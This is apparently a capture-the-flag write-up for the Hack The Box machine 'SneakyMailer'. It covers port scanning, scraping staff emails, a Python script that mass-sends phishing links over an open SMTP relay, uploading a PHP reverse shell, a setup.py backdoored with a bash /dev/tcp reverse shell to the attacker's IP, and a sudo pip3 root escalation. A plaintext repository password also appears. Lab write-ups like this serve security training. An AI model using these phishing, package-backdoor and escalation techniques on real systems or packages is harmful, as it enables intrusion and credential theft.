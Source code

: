 ```yaml
---
date: 2020-07-16 06:53:04
layout: post
title: "SneakyMailer"
subtitle:
description:
image: /writeup/assets/img/Sneakymailer/sneakymailer.png
optimized_image:
category:
tags:
author:
paginate: false
---
```

Started with nmap scan
```bash
nmap -T4 -p- -A 10.10.10.197
```
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-15 04:51 IST
Nmap scan report for sneakycorp.htb (10.10.10.197)
Host is up (0.31s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
|   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
|_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
25/tcp   open  smtp     Postfix smtpd
|_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
80/tcp   open  http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Employee - Dashboard
143/tcp  open  imap     Courier Imapd (released 2018)
|_imap-capabilities: ACL2=UNION CAPABILITY ENABLE SORT THREAD=ORDEREDSUBJECT NAMESPACE UIDPLUS completed ACL CHILDREN IDLE IMAP4rev1 UTF8=ACCEPTA0001 THREAD=REFERENCES STARTTLS OK QUOTA
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Courier Imapd (released 2018)
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-05-14T17:14:21
|_Not valid after:  2021-05-14T17:14:21
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.14.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   356.21 ms 10.10.14.1
2   356.18 ms sneakycorp.htb (10.10.10.197)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.70 seconds
```
21,22,25,80,143,993,8080 ports were open.FTP port didn't allowed anonymous access.
The website at port 80 didn't work directly with ip and redirected to sneakycorp.htb.So added sneakycorp.htb in /etc/hosts file.
![placeholder](/writeup/assets/img/sneakymailer/hosts.png "hosts")
Now the website responded correctly.
![placeholder](/writeup/assets/img/sneakymailer/web.png "web")
Found link to register functionality in the source of webpage.
![placeholder](/writeup/assets/img/sneakymailer/register.png "register")
The registration funtion doesn't seem to work.
Tried to find any hidden directories or subdomains with ffuf
```bash
ffuf -w wordlist -u http://sneakycorp.htb/FUZZ
```
Didn't found any thing useful with directory busting but I did found a subdomain.
```bash
ffuf -w subdomains -u http://sneakycorp.htb -H "Host: FUZZ.sneakycorp.htb -fw 6"
```
![placeholder](/writeup/assets/img/sneakymailer/sub.png "subdomains")

Added the entry dev.sneakycorp.htb in the hosts file.
The subdomain didn't came to be much useful except it gave the link to register functionality directly in the dashboard of the website.
On the website's team.php page, found many emails.
Moved on to the port 25(smtp). I found that I can send mail using this port without any authentication.


Extracted every email from the website with python.
```python
from lxml import etree
import requests

data=requests.get("http://sneakycorp.htb/team.php")
parser = etree.HTMLParser()
tree = etree.fromstring(data.text, parser)
results = tree.xpath('//tr/td[position()=4]')
output=open("emails","w")
for r in results:
    output.write(r.text+"\n")
```
Since the box name and image suggested of phishing. So tried to send mail to every email.
```python
import smtplib

data=open("/root/tmp/emails","r")
s = smtplib.SMTP(host='10.10.10.197', port=25)
lines=data.readlines()
i=0
for line in lines:
    print(i)
    to=line.split()       
    message = "http://10.10.14.35/"+str(to)
    s.sendmail("sulcud@sneakymailer.htb","paulbyrd@sneakymailer.htb","Subject:this mail \n\n"+message)
    i+=1    
s.quit() 
```
Here used a link that pointed to my hosted server.So that I can know whether someone clicks a link from the machine(I mean any script deployed on machine to do this).
Opened my port 80 to look for incoming connections using nc.
```bash
nc -lnvp 80
```
![placeholder](/writeup/assets/img/sneakymailer/back.png "back")
Got a request from a email which gave credentials in the format of a request being made to register.php.

Used the credentials to log on to the imap service on port 143 using telnet.
<a href="http://blog.andrewc.com/2013/01/connect-to-imap-server-with-telnet/">Used this</a> blog to get the commands I needed for enumerating the service.
```bash
a1 login paulbyrd password_here
a2 LIST "" "*"
a3 EXAMINE "INBOX.Sent Items"
a4 FETCH 1 BODY[]
a4 FETCH 2 BODY[]
```
INBOX.Sent Items contained two mails first one gave creds for developer user and second one gave hint on what to do next.
![placeholder](/writeup/assets/img/sneakymailer/hint.png "pypi")
Used the creds to log in to the ftp service.

It contained a directory named dev.So it might be the directory from which the dev subdomain works. Uploaded a php reverse shell to the directory and accessed it to get a shell onto the machine.
Changed user from the www-data to developer using su command andd previous creds.


There was also a subdomain pypi which I found from /var/www folder.Enumerating more I found from /etc/nginx/sites-enabled that pypi subdomain is listening on port 8080.

pypi subdomain was hosting a pypi server. The .htpasswd file inside /var/www/pypi.sneakycorp.htb gave a hash which on cracking with john gave the password which was required on the pypi.sneakycorp.htb.
Since the hint pointed that low user will check every module in pypi's packages. So uploaded a module with modification in the setup.py file of module to get a reverse shell.


<a href="https://pypi.org/project/pypiserver/">From</a> the documentation of pypi server. Got the steps required to upload the file.
I used the following pypirc file
```text
[distutils]
index-servers =
  pypi
  local

[pypi]
username:pypi
password:soufianeelhaoui

[local]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui
```

Since I had downlaoded mitm6 recently from pip,I used it. Just edited the setup.py to get a shell.
![placeholder](/writeup/assets/img/sneakymailer/module.png "setup")
and then uploaded the module using
```bash
python setup.py sdist upload -r local
```
Since the setup.py would get executed while uploading.So I got a shell back from my machine only.Quickly I closed the connection and opened again.As the file got uploaded, I got a reverse shell from the machine as low user.

The payload can also be improved using a if condition in the setup.py so that connection from the local machine is not made.
```python
#adding a if in the setup.py
if os.getuid() == 1000:
   os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.30/9999 0>&1'")
```

Got the user.txt.

Ran ***sudo -l*** and found that pip3 command can be run as root.
Got the command required for privilege escalation using pip3 from <a href="https://gtfobins.github.io/gtfobins/pip/">gtfobins</a> 
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
Got the root shell and root.txt.    

